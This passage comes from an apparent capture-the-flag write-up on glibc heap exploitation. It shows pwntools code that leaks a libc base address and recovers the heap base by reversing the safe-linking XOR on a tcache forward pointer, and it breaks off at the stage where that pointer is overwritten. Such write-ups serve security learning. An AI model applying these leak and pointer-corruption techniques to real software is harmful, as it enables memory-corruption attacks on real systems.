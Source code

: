 ```
```

So offset is `0x1c5220`. The following code will be use to take this leak and calculate libc base address:

```py
libc.address = u64(show(7) + b'\x00\x00') - 0x1c5220
log.success("Libc base: " + hex(libc.address))
```

that’s great! Let’s move on the next stage: Leak heap address!

### Stage 2: Leak heap address

To leak heap address, we just simply create 1 small chunk then free it. Remember what I have explained? The forward pointer has to XOR first, then it will be written to chunk. So just free() 1 small chunk and we can get the address of forward pointer, then recover the base address of heap:

```
fw_pointer = u64(show(0).ljust(8, b'\x00'))
log.success("Leak fw pointer: " + hex(fw_pointer))
```

And we can see that the forward pointer was leaked:

![fw_pointer_leaked.png](/static/images/foobar-ctf-2022/images/fw_pointer_leaked.png)

Check with GDB:

![check_fw_pointer.png](/static/images/foobar-ctf-2022/images/check_fw_pointer.png)

So as I mentioned above, with the first chunk is freed and goes to tcache, the forward pointer will be like this:

```
# (<Current chunk address> >> 12) ^ <Previous chunk address> = <protected forward pointer>
  (       0x1a1c2a0        >> 12) ^             0            = 0x1a1c
```

So to recover the heap base address, we just simply do the reverse order (don't need to XOR) with the following payload:

```py
heap = u64(show(0).ljust(8, b'\x00')) << 12
log.success("Heap base: " + hex(heap))
```

And we get the heap base address. Before we move on next stage, just malloc again to reset the state of tcache bin to null:

```py
add(0, 0x10, '{}'.format(0).encode()*8)
```

And now, let’s move on!

### Stage 3: Overwrite forward pointer
